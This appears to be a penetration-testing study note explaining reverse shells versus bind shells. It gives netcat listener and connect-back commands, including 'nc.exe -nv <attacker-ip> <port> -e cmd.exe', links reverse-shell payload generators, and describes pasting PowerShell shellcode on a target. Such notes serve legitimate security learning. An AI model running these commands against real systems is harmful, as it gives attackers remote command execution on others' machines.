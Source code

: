 
+ A reverse shell is a type of remote shell where the target connects directly to a listener on the attacker's system, consequently allowing for execution of commands on the target system.

![[Pasted image 20231018011642.png]]
- Target connects to Netcat listener on Attacker system.


**Advantages of a reverse shell over bind shell**

1. In case of a reverse shell, the listener is setup on the attacker machine. The target machine instead connects to the attacker machine. 
2. Outgoing traffic from a system is rarely blocked by security mechanisms, this will help the target machine connect to the attacker without raising much suspicion. 

**Disadvantage of a reverse shell**

1. In order to establish a connection between the attacker and the target machine, the target machine needs to know the IP address of the attacker machine. This poses the risk of having the attacker IP address leaked. 

### How to gain reverse shell access using `nc` ?

1. Transfer the `nc.exe` file from the Linux machine to the Windows machine.

2. Set up the listener in the attacker machine.
```
nc -lnvp <port>
```

3. Connect to the attacker machine using `nc.exe`
```
nc.exe -nv <attacker-ip> <port> -e cmd.exe
```

4. This will provide us with a reverse command shell session on our Linux machine.

5. This process can be repeated on multiple operating systems regardless of whether its a Windows or Linux system. 

6. Since it's a reverse shell connection, the connection doesn't need to be made by `nc`. It can also be made using a `PowerShell` or `Bash` code.

### Cheat Sheet for Reverse Shell 

1. Codes in various language are available in the `PayloadsAllTheThings` Github repository to connect to a `nc` listener running on the attacker machine.
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

2. We can use the https://www.revshells.com/ website to generate reverse shells, bind shells or `MSFVenom` payloads for both Linux and Windows in the language of our choice. 

3. We'll use a PowerShell payload from the `revshells` website to get a reverse shell connection.

4. Set up the listener in the attacker machine. `nc -lnvp 80`

5. Paste the copied `shellcode` in `cmd` of the target Windows system and run. We should get a reverse shell on our attacker machine.